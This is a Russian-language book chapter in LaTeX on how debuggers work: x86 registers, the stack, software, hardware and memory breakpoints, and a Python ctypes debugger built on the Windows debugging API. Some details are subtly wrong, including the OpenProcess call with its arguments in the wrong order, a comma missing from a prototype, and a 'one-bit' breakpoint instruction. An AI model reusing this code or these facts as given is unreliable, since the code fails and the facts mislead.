Единственный регистр, который не был разработан для чего-то конкретного - это EBX. Он может использоваться, как дополнительное хранилище данных.

Единственный дополнительный регистр, который стоит упомянуть отдельно, это регистр EIP. Он указывает на инструкцию, которая выполняется в данный момент. Как процессор проходит по двоичному исполняемому коду, EIP обновляется для отображения адреса, по которому в данный момент происходит выполнение.

Отладчик должен уметь легко читать и изменять содержимое этих регистров. Каждая операционная система предоставляет интерфейс отладчикам для взаимодействия с процессором, возможности извлекать и модифицировать данные в регистрах. Мы рассмотрим отдельные интерфейсы в главах о конкретных операционных системах.

\section{Стек}

Стек - это очень важная структура, которую надо знать при разработке отладчика. Стек хранит информацию о том, как вызывается функция, какие параметры она забирает, и что надо вернуть после выполнения функции. Структура стека представляет собой модель "Первый пришел, последний вышел" (FILO, First In, Last Out), когда аргументы проталкиваются в стек для вызова функции, и извлекаются из стека после того, как функция завершит свое выполнение. Регистр ESP используется для отслеживания самой вершины кадра стека, а регистр EBP используется для отслеживания самого низа стека. Стек "растет" от верхних адресов памяти к нижним адресам памяти. Давайте используем нашу предыдущую рассмотренную функцию my\_socks(), как простейший пример того, как работает стек.

На языке C:
Код:
\begin{lstlisting}
int my_socks(color_one, color_two, color_three);
\end{lstlisting}
Вызов функции в ассемблере x86:
Код:
\begin{lstlisting}
push color_three
push color_two
push color_one
call my_socks
\end{lstlisting}

Так будет выглядеть стек изображено на Рисунке 2-1.
\begin{figure}
  \center
  
\includegraphics{./pic/chap2/1.PNG}
  \caption{Кадр стека для вызова функции my\_socks()}
\end{figure}

Перевод обозначений:

    Stack growth direciton - направление роста стека.
    Base of stack frame - основание (база) кадра стека.
    Return adress - адрес возвращаемого значения.


Как вы можете видеть, это прямая структура данных и это основа для всех вызываемых функций в двоичном коде. Когда функция my\_socks() завершает работу (и возвращает какое-либо значение), она выталкивает из стека все значения и переходит к адресу возврата для продолжения выполнения родительской функции, которая её вызвала. Рассмотрим понятие локальных переменных. Локальные переменные это часть памяти, которая доступна только для функции, которая выполняется в данный момент. Немного расширим функцию my\_socks(), давайте предположим, что первое, что будет делать эта функция - это создавать массив символов, в который будет скопирован параметр color\_one. Код будет выглядеть так:
Код:
\begin{lstlisting}
int my_socks(color_one, color_two, color_three)
{
char stinky_sock_color_one[10];
...
}
\end{lstlisting}
Переменная stinky\_sock\_color\_one будет находится в стеке так, что ее можно использовать в конкретном кадре стека. Как только произошло это распределение, кадр стека будет выглядеть как на Рисунке 2-2.

\begin{figure}
  \center
  
\includegraphics{./pic/chap2/2.PNG}
  \caption{Кадр стека после того, как была объявлена локальная переменная stinky\_sock\_color\_one.}
\end{figure}

Теперь вы увидели, как локальная переменная размещается в стеке, и как указатель стека увеличивается вплоть до точки вершины стека. Способность захватить кадр стека в отладчике очень полезно для пошагового выполнения (трассировки) функций, захвата состояния стека при аварии программы, и отслеживания переполнений стека.

\section{События отладчика}

Отладчик работает как бесконечный цикл который ждет события отладки. Когда событие для отладки случается, цикл прерывается, и вызывается соответствующий обработчик событий.

Когда вызван обработчик событий, отладчик останавливается и ждет указаний, что ему делать дальше. Вот несколько обычных событий, которые должен улавливать отладчик:

    Встреча точки останова (breakpoint)
    Нарушения памяти (так же называемые нарушениями доступа или нарушением сегментации)
    Исключения, сгенерированные отлаживаемой программой


У каждой операционной системы разный способ отправки этих событий отладчику, которые будут описаны в главах, посвященных операционным системам. В разных операционных системах могут быть перехвачены другие события, например такие, как создание потока и процесса, или загрузка динамической библиотеки во время выполнения. Мы рассмотрим эти конкретные события, когда понадобится.

Преимущество отладчика с возможностью создания сценариев (скриптов) - возможность построить собственные обработчики событий для автоматизации определенных задач отладки. Для примера, обычная причина переполнения буфера - нарушения целостности памяти, и это представляет большой интерес для хакера. В течение обычной сессии отладки, если случаются переполнение буфера и нарушения памяти, то вы должны перехватить отладчиком и в ручную получить информацию, которая вам интересна. Возможность создавать эти настроенные вами обработчики, не только сохраняют ваше время, но и так же позволяют вам расширить возможность управлять процессом отладки.


\section{Точки останова}

Возможность остановить отлаживаемый процесс достигается установкой точек останова (breakpoints). Остановив процесс, у вас появляется возможность проверить переменные, аргументы стека, и что находится в памяти без изменения переменных процесса, прежде чем вы сможете записать их. Точки останова - это определенно самая частая вещь, которую вы можете использовать при отладке процесса, и рассмотрим их очень внимательно. Есть три основных вида точек останова: программные (soft breakponit), аппаратные (hardware breakpoint), и памяти (memory breakpoint). Они ведут себя очень похоже, но выполняются очень разными способами.

\subsection{Программные точки останова}

Программные точки останова используются специально для остановки процессора при выполнении инструкций и это самый частый вид точек останова, который вы будете использовать при отладке приложений. Программный брейкпоинт - это однобитная интсрукция, которая останавливает выполнение отлаживаемого процесса и передает управление обработчику исключений точек останова. В целях понимания как это работает, вам следует знать разницу между инструкцией (instruction) и опкодом (opcode) в ассемблере x86.

Инструкция ассемблера - это высокоуровневое представление команды на выполнение для процессора. Пример:
Код:
\begin{lstlisting}
MOV EAX, EBX
\end{lstlisting}
Эта инструкция говорит процессору переместить значение, хранящееся в регистре EBX в регистр EAX. Очень просто, правда? Однако, процессор не знает, как интерпретировать эту инструкцию, ему нужно конвертировать её в что-то, называемое опкодом. Код операции (code operation) или опкод это команда машинного языка, которую выполняет процессор. Для иллюстрации, давайте переведем предыдущий пример инструкции в его "родной" опкод:
Код:
\begin{lstlisting}
8BC3
\end{lstlisting}

Как вы можете видеть, он затемняет (обфусцирует) то, что реально происходит "за сценой", но это язык, на котором говорит процессор. Думать о инструкциях ассемблера, как DNS (прим. Сервер имён) для процесора. Инструкции упрощают возможность запомнить команды выполнения (имена сайтов, хостов), вместо запоминания всех индивидуальных опкодов (IP адреса). Вам очень редко понадобится использовать опкоды в вашей обыденной отладке, но они важны для понимания целей программных точек останова.

Если инструкция, которую мы рассматривали ранее, будет находится по адресу 0x44332211, общее представление будет выглядеть так:
Код:
\begin{lstlisting}
0x44332211: 8BC3 MOV EAX, EBX
\end{lstlisting}
Это отображаются адрес, опкод, и высокоуровневая инструкция ассеблера. Для того, чтобы установить программный брейкпоинт по этому адресу и остановить процессор, мы заменим один байт из 2-байтного опкода 8BC3. Этот одиночный байт представляет собой инструкцию прерывания (interrupt) 3 (INT 3), которая "приказывает" процессору остановится. Инструкция INT3 конвертируется в однобайтный опкод 0xCC. Вот наш предыдущий пример до и после установки точки останова.

Опкод до установки точки останова:
Код:
\begin{lstlisting}
0x44332211: 8BC3 MOV EAX, EBX
\end{lstlisting}
Модифицированный опкод после установки точки останова:
Код:
\begin{lstlisting}
0x44332211: CCC3 MOV EAX, EBX
\end{lstlisting}
Вы можете видеть, что заменили байт 8B на байт CC. Когда процессор идет вприпрыжку (кроме шуток, comes skipping along) и натыкается на этот байт, он останавливается и запускает событие INT 3. Отладчики имеют встроенную возможность обрабатывать это событие, но прежде чем вы разработаете ваш собственный отладчик, надо хорошо понимать, как они делают это. Когда отладчик говорит установить точку останова в желаемый адрес, он сначала читает первый байт опкода по запрошенному адресу и сохраняет его. Затем отладчик записывает CC байт по этому адресу. Когда точка останова, или INT 3, срабатывает при интерпретации процессором опкода CC, отладчик перехватывает это. Затем отладчик проверяет указывает ли указатель инструкций (регистр EIP) на адрес, на который предварительно была установлена точка останова. Если адрес находится во внутреннем списке точек останова, он записывает обратно сохраненный байт по этому адресу, чтобы опкод мог выполниться правильно, после продолжения выполнения процесса. Рисунок 2-3 детально описывает этот процесс.

\begin{figure}
  \center
  
\includegraphics{./pic/chap2/3.PNG}
  \caption{Процесс установки программной точки останова.}
\end{figure}

Перевод обозначений:

     1) Отладчик посылает инструкцию установить точку останова по адресу 0x44332211; он считывает и сохраняет первый байт.
     2) Переписывает первый байт на опкод 0xCC (INT 3).
     3) Когда процессор встречает точку останова, происходит внутренний поиск, и байт возвращается на место.
     Breakpoint List - список точек останова.


Как видите, отладчик должен словно станцевать, чтобы обработать программную точку останова. Есть два типа точек останова, которые вы можете установить: одноразовые (one-shot) брейкпоинты и стойкие (persistent) точки останова. Одноразовые точки останова подразумевают то, что точка останова встречается, она удаляется из внутреннего списка точек останова отладчика, они удобны для только одной установки. Стойкая точка останова восстанавливается после того, как процессор выполнит оригинальный опкод, поэтому запись в списке отладчика сохраняется.

Однако программные точки останова имеют одно ограничение, когда вы меняете байт исполняемого в памяти, вы изменяете контрольную сумму циклического избыточного кода (Cyclic redundancy code, CRC) выполняемого приложения. CRC - это тип функции, которая используется для определения изменения данных каким либо способом, и она может быть применена к файлам, памяти, тексту, сетевым пакетам, или чего-нибудь еще, за изменением данных которого вам надо наблюдать. CRC возьмет диапазон данных, в данном случае память выполняемого процесса, и получит хэш содержимого. Затем она сравнивает хеш с контрольной суммой для определения были ли изменены данные. Если контрольная сумма отличается от контрольной суммы, которая хранится для подтверждения, проверка CRC собьется. Важно заметить, как часто вредоносное ПО будет проверять свой исполняемый код в памяти для любых изменений CRC и убьёт себя, если обнаружится сбой. Это очень эффективная техника для замедления реверс-инженерии, таким образом предотвращается использование программных точек останова, ограничивая динамический анализ его поведения. Для того, чтобы обойти эти особенности используются аппаратные точки останова.

\subsection{Аппаратные точки останова}

Аппаратные точки останова (hardware breakpoints) полезны, когда нужно установить небольшое число точек останова, и отлаживаемая программа не может быть модифицирована. Этот тип точек устанавливается на уровне процессора, в специальных регистрах, называемых регистрами отладки. Типичный процессор имеет 8 регистров отладки (по порядку с DR0 до DR7 соответственно), которые используются для установки и управлением аппаратных точек. Регистры отладки с DR0 до DR3 зарезервированы для адресов точек останова. Это означает, что вы можете использовать лишь 4 аппаратных точки одновременно. Регистры DR4 и DR5 зарезервированы, а регистр DR6 используется, как регистр статуса, который определяет тип события отладки, вызванного встречей точки останова. Регистр отладки DR7 по существу является выключателем (вкл/выкл) аппаратных точек останова, а так же хранит разные состояния точек останова. При установке специальных флагов в регистр DR7, вы можете создать точки останова в следующих состояниях:

     Останов, когда инструкция выполняется по определенному адресу.
     Останов, когда данные записываются по адресу.
     Останов на чтение или запись, но не выполнение.


Это очень полезно, если у вас есть возможность выставить до четырех точек останова в конкретные состояния без модифицирования выполняемого процесса. Рисунок 2-4 покажет вам как поля в DR7 связанны с поведением аппаратных точек останова, длиной и адресом.

Биты 0-7 по существу переключатели (вкл/выкл) для активации точек останова. Поля L и G в битах 0-7 стоят для глобального и локального масштаба. Я изобразил оба бита, как установленные. Тем не менее, установка только одного из них будет работать, и на моем опыте у меня не было каких либо проблем в отладке на уровне пользователя. Биты 8-15 в DR7 не используются для нормальных целей отладки, которые мы будем осуществлять. Обратитесь к мануалу по архитектуре Intel x86 для дополнительного разъяснения назначения этих битов. Биты 16-31 определяют тип и длину точки останова, которая была установлена для связанного регистра отладки.

\begin{figure}
  \center
  
\includegraphics{./pic/chap2/4.PNG}
  
\includegraphics{./pic/chap2/5.PNG}
  \caption{Вы можете видеть, как установка флагов в регистре DR7 указывает тип используемой точки останова.}
\end{figure}


Перевод обозначений:

    Layout of DR7 register - вывод регистра DR7.
    Type - тип
    Len - сокр. длина.
    DR7 with 1-byte Execution Breakpoint Set at... - DR7 с точкой останова на исполнение 1 байта установленной по адресу...
    DR7 with Additional 2-byte Read/Write Breakpoint at... - DR7 с точкой останова на исполнение дополнительного 2-байтного чтения/записи по адресу...
    Breakpoint Flags - флаги точек останова
    Breakpoint Length Flags - фдаги длины точек останова
    Break on execution - останов, когда инструкция выполняется.
    Break on data writes - останов на запись данных.
    Break on read or write but not execution - останов на чтение или запись, но не выполнение.


В отличие от программных, которые используют событие INT3, аппаратные точки используют прерывание 1 (INT1). INT1 случается для аппаратных точек останова и одноступенчатых событий. Одноступенчатый означает проход по порядку по инструкциям, что позволяет вам очень близко исследовать критические участки кода во время изменения наблюдаемых данных.

Аппаратные точки останова обрабатываются таким же способом, как и программные, но их механизм находится на низком уровне. Прежде чем процессор попытается выполнить инструкцию, он сначала проверит, не установлена ли на адрес аппаратная точка. Он так же проверит операторов инструкции, не имеют ли они доступ к адресу, на который установлена аппаратная точка. Если адрес хранится в регистрах отладки DR0-DR3 и условия чтения, записи, или выполнения встречаются, прерывание INT1 приказывает процессору остановиться. Если адрес не хранится в регистрах отладки, процессор выполняет инструкцию и переходит к следующей, и эта проверка выполняется снова, и так далее.

Аппаратные точки очень полезны, но у них есть некоторые ограничения. Помимо того, что вы можете выставить только четыре ваших точки в одно время, вы так же можете установить точку только на данные длинной 2 байта. Это может сильно ограничить вас, если вы собираетесь получить доступ к большому участку памяти. Как правило, для обхода этих ограничений вы можете использовать точки останова памяти.

\subsection{Точки останова памяти}

Точки останова памяти являются не совсем точками останова. Когда отладчик устанавливает точку памяти, он меняет разрешения на регион, или страницу (page) памяти. Страница памяти - это наименьшая порция памяти, которую обрабатывает операционная система. Когда страница памяти выделяется, у нее устанавливаются конкретные разрешения на доступ, которые указывают как эта память может быть доступна. Вот некоторые примеры разрешений на страницу памяти:

    Выполнение страницы (page execution) Дает возможность выполнять, но выдает нарушение, если процесс попытается прочитать или записать данные на страницу.
    Чтение страницы (Page read) Позволяет процессу только считывать со страницы; любая запись или попытка выполнения вызовут нарушение доступа.
    Запись страницы (Page write) Позволяет процессу записывать на страницу.
    Сторожевая страница (Guard page) Любой доступ к сторожевой странице возвращает единовременное исключение, и затем страница возвращается к своему первоначальному статусу.

Большинство операционных систем позволяют вам комбинировать эти разрешения. Например, вы можете иметь страницу памяти, куда вы можете писать и читать, в то время, как другая страница может позволить вам прочитать или выполнить. Каждая операционная система так же имеет присущие функции, позволяющие вам запрашивать конкретные разрешения памяти в месте для особой страницы и изменять их, если понадобится. Посмотрите на Рисунок 2-5, чтобы увидеть, как доступ к данным работает с разными установленными разрешениями страницы памяти.

Главная интересующее нас разрешение для страницы - сторожевая страница. Этот тип страниц очень полезен для таких вещей, как отделение кучи от стека или убеждения в том, что часть памяти не разрастется за пределы ожидаемого диапазона. Она так же хороша для остановки процесса, когда он встречает особую часть памяти. Например, если мы реверс-инженируем сетевое серверное приложение, мы должны будем установить точку останова памяти на регион памяти, где хранится полезная нагрузка пакета, после его получения. Это позволит нам определить когда и как приложение использует содержимое полученного пакета, как и любой имеющий доступ к этой странице памяти будет останавливать процессор, кидая отладочное исключение сторожевой страницы. Затем мы можем проверить инструкцию, которая имеет доступ к буферу в памяти и определить, что происходит с содержимым. Эта техника точек останова так же работает с проблемами деформации данных, которые имеют программные точки останова, так как мы не изменяем исполняемый код.


Click here to view the original image of 681x335px.

\begin{figure}
  \center
  
\includegraphics{./pic/chap2/6.PNG}
  \caption{Поведение разных разрешений страниц памяти.}
\end{figure}

Перевод обозначений:

    Read, Write, or Execute flags on a memory page allow data to be moved in and out or executed on - Флаги на чтение, запись или выполнение на странице памяти позволяют данным быть записанными и полученными или выполненным на странице.
    Any type of data access on a guard page will result in an exception being raised. The original data operation will fail. - Любой тип доступа к данным на сторожевой странице приведут к возникновению исключения. Оригинальная операция с данными не выполнится.
    GUARD PAGE EXCEPTION - исключение сторожевой страницы.

Наконец, мы рассмотрели некоторые простейшие аспекты того, как работает отладчик и как он взаимодействует с операционной системой, теперь пришло время написать наш первый легковесный отладчик на Python. Мы начнем с создание простенького отладчика в Windows, где накопленные знания о ctypes и внутренностях отладчика нам очень пригодятся. Давайте разогреем наши пальцы для кодинга.

\chapter{Создание отладчика под Windows}
\addcontentsline{toc}{section}{Intro}
\section*{Intro}

Теперь, когда мы рассмотрели основы, пришло время применить знания, полученные в предыдущих главах книги. Когда Microsoft разработала Windows, она добавила поразительное множество отладочных функций, что бы помочь разработчикам и специалистам по обеспечению качества. В этой главе, мы будем интенсивно использовать эти функции, для создания собственного отладчика на Python’e. Важно отметить здесь и то, что мы, по сути, совершаем углубленное изучение PyDbg (Педрама Амини), поскольку, на данный момент, это наиболее чистый Windows-отладчик, написанный на Python (прим. пер. есть еще один стремительно развивающийся WinAppDbg). 


\section{Debuggee, Where Art Thou?}

Для того что бы выполнить отладку процесса, у вас должна быть возможность ассоциировать отладчик с отлаживаемым процессом. Следовательно, наш отладчик должен иметь возможность либо открыть исполняемый файл и запустить его, либо присоединиться к уже запущенному процессу. Windows debugging API – предоставляет простой способ сделать и то и другое.

Существуют некоторые различия между открытием процесса и присоединением к нему. Преимуществом открытия процесса есть то, что у вас есть возможность получить контроль над процессом еще до того, как он сможет запустить какой бы то ни было код. Это может быть удобно при анализе вредоносных программ или других типов вредоносного кода. При присоединении вы вклиниваетесь в уже работающий процесс, что позволяет пропускать часть кода и анализировать специфические области, в которых вы заинтересованы. В зависимости от того, что отлаживается и то какой анализ нужно проделать - вы выбираете, какой подход вам использовать.

Первый способ, получения процесса выполняющегося под отладчиком – это запустить исполняемый файл испод самого отладчика. Для создания процесса в Windows, вам нужно вызвать функцию CreateProcessA() [1]. Установка конкретных флагов, которые передаются в эту функцию автоматически, включает процесс отладки. Вызов CreateProcessA() выглядит так:

Код:
\begin{lstlisting}
BOOL WINAPI CreateProcessA(
    LPCSTR lpApplicationName,
    LPTSTR lpCommandLine,
    LPSECURITY\_ATTRIBUTES lpProcessAttributes,
    LPSECURITY\_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCTSTR lpCurrentDirectory,
    LPSTARTUPINFO lpStartupInfo,
    LPPROCESS\_INFORMATION lpProcessInformation
);
\end{lstlisting}

На первый взгляд это вызов может показаться сложным, но, как и в реверс инжиниринге, мы должны всегда разбивать вещи на более мелкие части, что бы понять общую картину. Мы будем иметь дело только с параметрами, которые важны для создания процесса испод отладчика, а именно: lpApplicationName, lpCommandLine, dwCreationFlags, lpStartupInfo и lpProcessInformation. Остальные параметры могут быть установлены в NULL. Для полного ознакомления с вызовом этой функции, обратитесь к записи в Microsoft Developer Network (MSDN). Первые два параметра используются для установки пути к исполняемому файлу, который мы хотим запустить и установки аргументов командной строки, которые он (исполняемый файл) принимает. Параметр dwCreationFlags занимает особое значение, которое указывает на то, что процесс должен быть запущен в качестве отлаживаемого процесса. Последние два параметра являются указателями на структуры STARTUPINFO [2] и PROCESS\_INFORMATION [3] соответственно, которые определяют, как процесс должен быть запущен, а так же предоставляют важную информацию, касаемо самого процесса, после того как тот был успешно запущен.

Создайте два новых файла: my\_debugger.py и my\_debugger\_defines.py. Затем мы начнем создавать родительский класс debugger(), в который мы будем постепенно добавлять функциональность отладчика кусок за куском. В дополнение, мы поместим все: структуры, объединения и константы в файл my\_debugger\_defines.py, для удобства в последующего сопровождения кода.

Example 1: my\_debugger\_defines.py
Код:
\begin{lstlisting}
from ctypes import *

# Let's map the Microsoft types to ctypes for clarity
WORD = c_ushort
DWORD = c_ulong
LPBYTE = POINTER(c_ubyte)
LPTSTR = POINTER(c_char)
HANDLE = c_void_p

# Constants
DEBUG_PROCESS = 0x00000001
CREATE_NEW_CONSOLE = 0x00000010

# Structures for CreateProcessA() function
class STARTUPINFO(Structure):
    _fields_ = [
        ("cb", DWORD),
        ("lpReserved", LPTSTR),
        ("lpDesktop", LPTSTR),
        ("lpTitle", LPTSTR),
        ("dwX", DWORD),
        ("dwY", DWORD),
        ("dwXSize", DWORD),
        ("dwYSize", DWORD),
        ("dwXCountChars", DWORD),
        ("dwYCountChars", DWORD),
        ("dwFillAttribute",DWORD),
        ("dwFlags", DWORD),
        ("wShowWindow", WORD),
        ("cbReserved2", WORD),
        ("lpReserved2", LPBYTE),
        ("hStdInput", HANDLE),
        ("hStdOutput", HANDLE),
        ("hStdError", HANDLE),
        ]

class PROCESS_INFORMATION(Structure):
    _fields_ = [
        ("hProcess", HANDLE),
        ("hThread", HANDLE),
        ("dwProcessId", DWORD),
        ("dwThreadId", DWORD),
        ]
\end{lstlisting}

Example 1: my\_debugger.py
Код:
\begin{lstlisting}
from ctypes import *
from my_debugger_defines import *

import sys
import time
kernel32 = windll.kernel32

class debugger():

    def __init__(self):
        pass
                
                
    def load(self,path_to_exe):
        
        # dwCreation flag determines how to create the process
        # set creation_flags = CREATE_NEW_CONSOLE if you want
        # to see the calculator GUI
        creation_flags = DEBUG_PROCESS
    
        # instantiate the structs
        startupinfo         = STARTUPINFO()
        process_information = PROCESS_INFORMATION()
        
        # The following two options allow the started process
        # to be shown as a separate window. This also illustrates
        # how different settings in the STARTUPINFO struct can affect
        # the debuggee.
        startupinfo.dwFlags     = 0x1
        startupinfo.wShowWindow = 0x0
        
        # We then initialize the cb variable in the STARTUPINFO struct
        # which is just the size of the struct itself
        startupinfo.cb = sizeof(startupinfo)
        
        if kernel32.CreateProcessA(path_to_exe,
                                   None,
                                   None,
                                   None,
                                   None,
                                   creation_flags,
                                   None,
                                   None,
                                   byref(startupinfo),
                                   byref(process_information)):
            
            print "[*] We have successfully launched the process!"
            print "[*] The Process ID I have is: %d" % process_information.dwProcessId
          
        else:    
            print "[*] Error with error code %d." % kernel32.GetLastError()
\end{lstlisting}

Сейчас мы напишем небольшой тест, что бы убедиться, что все работает так, как было запланировано. Назовите этот файл my\_test.py и убедитесь в том, что он находится в той же папке, что и остальные файлы.

Example 1: my\_test.py
Код:
\begin{lstlisting}
import my_debugger

debugger = my_debugger.debugger()

debugger.load("C:\\WINDOWS\\system32\\calc.exe")
\end{lstlisting}

Если вы выполните этот файл на Python’e, либо с помощью командной строки, либо с помощью вашей IDE, то произойдет запуск заданного процесса (calc.exe), затем будет выведен отчет, с указанием идентификатора запущенного процесса (PID), после чего последует завершение работы скрипта. Если вы используете вышеуказанный пример, то вы не увидите графической оболочки калькулятора. Причина, по которой вы не увидите графический интерфейс, заключается в том, что процесс не прорисовывается на экране, поскольку он ожидает команды от отладчика для продолжения своего выполнения. У нас еще не создана логика для этого, но она скоро появится! Сейчас вы знаете, как запустить процесс готовый для отладки. Пришло время сварганить какой-нибудь код, который присоединит (attach) отладчик к запущенному процессу.

Для того, что бы подготовить процесс, к присоединению, нужно получить дескриптор процесса. Большинство функций, которые мы будем использовать, требуют действительного дескриптора процесса, помимо этого это позволяет нам узнать, можем ли мы получить доступ к процессу, прежде чем мы попытаемся его отладить. Это делается с помощью фукнции OpenProcess() [4], которая экспортируется из kernel32.dll и имеет следующий прототип:

Код:
\begin{lstlisting}
HANDLE WINAPI OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle
    DWORD dwProcessId
);
\end{lstlisting}

Параметр dwDesiredAccess указывает, какой тип прав доступа, мы запрашиваем для объекта процесса, на который хотим получить дескриптор. Для того что бы выполнить отладку, нам нужно установить его в PROCESS\_ALL\_ACCESS. Параметр bInheritHandle всегда, в нашем случае, устанавливается в False, а в параметре dwProcessId задается PID процесса, на который мы хотим получить дескриптор. Если функция выполняется успешно, то она возвращает дескриптор объекта процесса.

Для присоединения к процессу, используем функцию DebugActiveProcess() [5]. Ее прототип выглядит следующим образом:

Код:
BOOL WINAPI DebugActiveProcess(
    DWORD dwProcessId
);
Мы просто передаем ей PID процесса, к которому хотим присоединиться. После того, как система определяет, что у нас есть соответствующие права доступа к процессу, целевой процесс предполагает, что присоединенный процесс (к отладчику) готов обрабатывать отладочные события, после чего отказывается от управления отладчиком (прим. пер. другими словами отладчик передает управление контролируемому процессу, т.е. процесс продолжается выполняться, до возникновения отладочных событий). Отладчик ловит эти отладочные события, вызывая функцию WaitForDebugEvent() [6] в цикле. Функция выглядит следующим образом:

Код:
\begin{lstlisting}
BOOL WINAPI WaitForDebugEvent(
    LPDEBUG_EVENT lpDebugEvent,
    DWORD dwMilliseconds
);
\end{lstlisting}

Первый параметр это указатель на структуру DEBUG\_EVENT [7]. Эта структура описывает события отладки. Второй параметр, мы установим в INFINITE, поэтому вызов WaitForDebugEvent() не будет возвращаться до возникновения события.

Для каждого события, которое отладчик перехватывает, существуют связанные обработчики событий, которые выполняют некоторые типы действий прежде, чем позволить процессу продолжить свое выполнение. После того, как обработчики закончили свою работу, мы наверняка захотим продолжить выполнение процесса. Это осуществляется с помощью функции ContinueDebugEvent() [8], которая выглядит следующим образом: 

Код:
\begin{lstlisting}
BOOL WINAPI ContinueDebugEvent(
    DWORD dwProcessId,
    DWORD dwThreadId,
    DWORD dwContinueStatus
);
\end{lstlisting}

Параметры dwProcessId и dwThreadId – это параметры полей в структуре DEBUG\_EVENT, которая инициализируется, когда отладчик перехватывает событие отладки. Параметр dwContinueStatus сигнализирует процессу либо продолжать выполнение (DBG\_CONTINUE), либо продолжать обработку исключений (DBG\_EXCEPTION\_NOT\_HANDLED).

Единственное, что нам остается реализовать – это отсоединение (detach) от процесса. Делается это с помощью вызова функции DebugActiveProcessStop() [9], которая принимает PID процесса, от которого вы хотите отсоединиться, в качестве единственного параметра.

Давайте соберем все выше перечисленное в месте и расширим наш класс, в файле my\_debugger, предоставляя ему возможность открывать и получать дескриптор процесса. Заключительной деталью реализации будет создание основного цикла для обработки отладочных событий. Откройте my\_debugger.py и введите следующий код.
ВНИМАНИЕ: Все необходимые структуры, объединения и константы были определены в файле my\_debugger\_defines.py, исходный код которого доступен по адресу http://www.nostarch.com/ghpython.htm. Скачайте этот файл сейчас и перезапишите вашу текущую копию. В дальнейшем мы не будем рассматривать структуры, объединения и константы, поскольку вы должны хорошо себя чувствовать с ними уже сейчас.

Example 2: my\_debugger.py
Код:
\begin{lstlisting}
from ctypes import *
from my_debugger_defines import *

import sys
import time
kernel32 = windll.kernel32

class debugger():

    def __init__(self):
        self.h_process       =     None
        self.pid             =     None
        self.debugger_active =     False
                                
    def load(self,path_to_exe):
        ...
        print "[*] We have successfully launched the process!"
        print "[*] The Process ID I have is: %d" % process_information.dwProcessId
        
        # Obtain a valid handle to the newly created process
        # and store it for future access
        self.h_process = self.open_process(process_information.dwProcessId)

    ...

    def open_process(self,pid):

        h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS,pid,False)
        return h_process

    def attach(self,pid):

        self.h_process = self.open_process(pid)

        # We attempt to attach to the process
        # if this fails we exit the call

        if kernel32.DebugActiveProcess(pid):
            self.debugger_active = True
            self.pid = int(pid)
        else:
            print "[*] Unable to attach to the process."

    def detach(self):

        if kernel32.DebugActiveProcessStop(self.pid):
            print "[*] Finished debugging. Exiting..."
            return True
        else:
            print "There was an error"
            return False
